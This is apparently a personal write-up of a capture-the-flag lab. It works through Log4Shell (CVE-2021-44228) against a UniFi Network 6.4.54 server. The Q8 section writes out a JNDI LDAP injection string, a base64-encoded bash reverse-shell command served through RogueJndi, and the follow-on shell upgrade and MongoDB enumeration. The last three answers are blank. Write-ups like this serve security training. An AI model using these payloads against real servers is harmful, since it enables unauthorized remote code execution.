 
Q1: Which are the first four open ports?

A: 22, 6789, 8080, 8443

Scan with nmap with -sV flag.

![](../../Img/Pasted%20image%2020250424150410.png)

Q2: What is the title of the software that is running running on port 8443?

A: UniFi Network

I had to run the scan again with the -sC flag
![](../../Img/Pasted%20image%2020250424151327.png)

Q3: What is the version of the software that is running?

A: 6.4.54

There wasn't version number in the scan, so digging around i went to the web page of this service (on port 8443) and got this.
![](../../Img/Pasted%20image%2020250424151922.png)

Q4: What is the CVE for the identified vulnerability?

A: CVE-2021-44228

Googleing aroudn i found this github repo (https://github.com/puzzlepeaches/Log4jUnifi) that had the answer.

Q5: What protocol does JNDI leverage in the injection?

A: LDAP

Looking at that cve we get it.
![](../../Img/Pasted%20image%2020250424153434.png)

Q6: What tool do we use to intercept the traffic, indicating the attack was successful?

A: tcpdump

It's just the tool for that.

Q7: What port do we need to inspect intercepted traffic for?

A: 389

It looks like ldap traffic goes to port 389
![](../../Img/Pasted%20image%2020250424155244.png)


Q8: What port is the MongoDB service running on?

A: 27117

So, according to this article (https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi) in the remember parameter goes a payload ("${jndi:ldap://eb0uvi.dnslog.cn:1389/o=tomcat}\"), but as i'm not using that tool (dnslog.cn) i just use my ip and tcpdump
I get an error
![](../../Img/Pasted%20image%2020250424160606.png)
but also a connection
![](../../Img/Pasted%20image%2020250424160627.png)
With this command we can encrypt the payload for the jndi echo 'bash -c bash -i >&/dev/tcp/{ip}/3333 0>&1' | base64
We insert that payload in the command for starting the jndi sv java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTU3LzMzMzMgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.15.157"
![](../../Img/Pasted%20image%2020250424162840.png)
in burp suite we replace the payload form the remember parameter with our new jdni port (${jndi:ldap://10.10.15.157/:1389/o=tomcat})
we get the connection
![](../../Img/Pasted%20image%2020250424163652.png)
Upgrade it (script /dev/null -c bash)
Now finally for the question let's check if mongo is running (ps aux | grep mongo)
![](../../Img/Pasted%20image%2020250424163929.png)

Q9: What is the default database name for UniFi applications?

A:  ace

Before i had the genius ground breaking idea of just Googleing it i connected to the mongo instance and listed the db
![](../../Img/Pasted%20image%2020250424164412.png)
![](../../Img/Pasted%20image%2020250424164226.png)

Q10: What is the function we use to enumerate users within the database in MongoDB?

A: db.admin.find()

This doesn't seem to me like a just find user command, db.getUsers() seems like the answer (https://www.prisma.io/dataguide/mongodb/configuring-mongodb-user-accounts-and-authentication)

Q11: What is the function we use to update users within the database in MongoDB?

A: db.admin.update()

Following the trend here, i got no problem with this one .

Q12: What is the password for the root user?

A: 



Q13: Submit user flag

A: 

Q14: Submit root flag

A: 



